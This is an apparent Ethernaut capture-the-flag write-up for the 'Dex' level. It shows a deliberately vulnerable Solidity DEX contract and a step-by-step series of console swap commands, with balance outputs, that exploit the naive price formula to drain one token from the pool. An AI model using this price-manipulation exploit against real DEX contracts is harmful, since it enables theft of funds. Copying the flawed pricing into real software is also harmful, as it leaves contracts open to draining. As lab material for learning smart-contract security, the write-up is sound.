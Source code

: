 # 22. Dex

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

## Vulnerability

The issue here lies in the way the swap price is computed. The total value of the pool is not constant and can therefore be taken advantage of.
Such issues are solved when using the `constant product marmet maker model` : `x * y = k` where `x` and `y` are the respective balances of tokenA and tokenB, `k` is the constant value of the pool.

Given the target contract's computation : `return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));` the pool value is not constant and can go to 0 due to rounding errors when computing the price, let's see how to exploit it:

We start with a balance of 10 in each token, while the contract hold initial balances of 100 of each token. The initial value of `k` would therefore be `10000`. The ratio of `token1 / token2` is initially 1.

To alleviate any approval issues later on let's approve more than required :

```js
// Run it in Ethernaut console
await contract.approve(contract.address, 1000);
```

Let's also hold some important variables in the console context :

```js
const accounts = await web3.eth.getAccounts();
const token1 = await contract.token1();
const token2 = await contract.token2();
```

Now let's swap our token1 balance (10) to token2 :

```js
await contract.swap(token1, token2, 10);
```

We should be left with 0 token 1 and 20 token2, while the pool now holds 110 token1 and 90 token2. Giving a `k` of `9900` and a ratio of `token1 / token2` of `1.22`.

```js
(await contract.balanceOf(token1, accounts[0])).toString();
// User balance of token 1 : '0'
(await contract.balanceOf(token2, accounts[0])).toString();
// User balance of token 2 : '20'
(await contract.balanceOf(token1, contract.address)).toString();
// Pool balance of token 1 : '110'
(await contract.balanceOf(token2, contract.address)).toString();
// Pool balance of token 2 : '90'
```

So let's swap again, this time from token2 to token 1  :

```js
await contract.swap(token2, token1, 20);
```

Which gives the following balances :

```js
(await contract.balanceOf(token1, accounts[0])).toString();
// User balance of token 1 : '24'
(await contract.balanceOf(token2, accounts[0])).toString();
// User balance of token 2 : '0'
(await contract.balanceOf(token1, contract.address)).toString();
// Pool balance of token 1 : '86'
(await contract.balanceOf(token2, contract.address)).toString();
// Pool balance of token 2 : '110'
```

Again, the pool now has a `k` value of : `9460` , we are effectively draining some value from it ! The ratio of `token1 / token2` is now of : `0.78`
Let's swap again from token 1 to token 2 :

```js
await contract.swap(token1, token2, 24);
```

With the following balances:

```js
(await contract.balanceOf(token1, accounts[0])).toString();
// User balance of token 1 : '0'
(await contract.balanceOf(token2, accounts[0])).toString();
// User balance of token 2 : '30'
(await contract.balanceOf(token1, contract.address)).toString();
// Pool balance of token 1 : '110'
(await contract.balanceOf(token2, contract.address)).toString();
// Pool balance of token 2 : '80'
```

The pool has a `k` value of `8800` and a ratio of `token1 / token2` of `1.37`.

Swapping one more time from token2 to token 1 :

```js
await contract.swap(token2, token1, 30);
```

We get :

```js
(await contract.balanceOf(token1, accounts[0])).toString();
// User balance of token 1 : '41'
(await contract.balanceOf(token2, accounts[0])).toString();
// User balance of token 2 : '0'
(await contract.balanceOf(token1, contract.address)).toString();
// Pool balance of token 1 : '69'
(await contract.balanceOf(token2, contract.address)).toString();
// Pool balance of token 2 : '110'
```

The pool has a `k` value of `7590` and a ratio of `token1 / token2` of `0.62`.

We can try swapping again from token1 to token2 :

```js
await contract.swap(token1, token2, 41);
```

```js
(await contract.balanceOf(token1, accounts[0])).toString();
// User balance of token 1 : '0'
(await contract.balanceOf(token2, accounts[0])).toString();
// User balance of token 2 : '65'
(await contract.balanceOf(token1, contract.address)).toString();
// Pool balance of token 1 : '110'
(await contract.balanceOf(token2, contract.address)).toString();
// Pool balance of token 2 : '45'
```

One last swap is necessary :

```js
await contract.swap(token2, token1, 65);
```

But this fails... because the computed swap price is : `((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)))` or : `65 * 110 / 45 = 158.8` but the pool has only 110 token 1... 

Let's compute the amount we need to send in order to get exactly 110 token1. The ratio `token1 / token2` is `2.44...` we just need to solve `110 = x * 2.44...` or `x = 110 / 2.44...` so, `x = 45.08`. Given that rounding down will be applied, we need to send `45` of token2 to drain all the available token1.


```js
await contract.swap(token2, token1, 45);
```

The final balances are the following :

```js
(await contract.balanceOf(token1, accounts[0])).toString();
// User balance of token 1 : '110'
(await contract.balanceOf(token2, accounts[0])).toString();
// User balance of token 2 : '20'
(await contract.balanceOf(token1, contract.address)).toString();
// Pool balance of token 1 : '0'
(await contract.balanceOf(token2, contract.address)).toString();
// Pool balance of token 2 : '90'
```

You can submit the challenge and move to the next one !